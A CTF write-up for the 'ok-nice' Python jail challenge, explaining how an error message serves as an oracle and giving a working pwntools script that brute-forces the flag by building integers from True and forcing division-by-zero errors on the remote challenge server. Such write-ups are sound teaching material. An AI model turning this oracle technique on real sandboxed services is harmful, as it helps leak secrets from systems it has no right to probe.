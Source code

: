 https://ctftime.org/event/2396

# ok-nice (misc)

python jail

## Solution

Very limited range of options, nothing gets printed other than
`ok-nice` or `error`.

So the idea is to use the error as an oracle and brute force every char.

The main thing we are looking for is how to generate integers, so we can both index
flag and compare it to the result of ord.

Both `flag[True]` or `flag[False]` work.

True and False also work for generating integers:
```python
(True + True) = 2
```

So now we can both index and compare two chars, something like:
```python
ord(flag[True]) - (True+True) # checks if flag[1] == '\x02'
```

Now we just need to throw an error whenever they match
```python
True / (ord(flag[True]) - (True+True)) # division by zero when they match
```

Then just loop through every idx and every char.

```python
#!/usr/bin/env python3

from pwn import *

p = remote("ok-nice.chal.imaginaryctf.org", 1337)

def guess(char):
    n = ord(char)
    ret = ""
    for _ in range(n):
        ret = ret + "True+"
    ret = ret[:-1]
    return ret

def get_idx(n):
    ret = ""
    for _ in range(n+1):
        ret = ret + "True+"
    ret = ret[:-1]
    return ret

def build_payload(guess, idx):
    return f"ord(flag[True])/(({guess})-ord(flag[{idx}]))"

import string, time

chars = string.printable

flag = ""
for i in range(0, 100):
    idx = get_idx(i)
    for char in chars:
        payload = build_payload(guess(char), idx)
        p.sendlineafter("Enter input: ", payload)
        time.sleep(0.100)
        out = p.recvline()
        if "error" in out.decode():
            flag = flag + char
            print(f"DEBUGPRINT[18]: go.py:45: flag={flag}")

p.interactive()
```

## Flag
`ictf{0k_n1c3_7f4d3e5a6b}`

shafouz 2024/07/21
